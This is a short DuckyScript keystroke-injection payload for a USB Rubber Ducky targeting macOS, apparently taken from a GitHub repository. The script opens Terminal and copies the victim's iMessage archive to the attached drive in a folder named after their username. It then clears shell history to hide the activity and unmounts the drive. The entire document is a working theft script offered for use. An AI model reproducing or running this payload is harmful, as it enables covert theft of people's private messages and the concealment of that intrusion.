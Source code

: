 `DELAY 500
GUI SPACE
DELAY 150
STRING Terminal
ENTER
DELAY 300
REM Author: Alex Jay (Minecracker627) (5A13X99)
REM This script captures iMessages and puts it into 
REM a folder named automatically to the victims username
STRING cp -r ~/Library/Messages/Archive /Volumes/RubberDucky/$USER/
ENTER
STRING history -c
ENTER
STRING diskutil umount /Volumes/RubberDucky
ENTER
DELAY 500
STRING history -c
ENTER
STRING echo 5A13X99
ENTER
DELAY 1000
STRING exit
ENTER
DELAY 250
GUI q
`
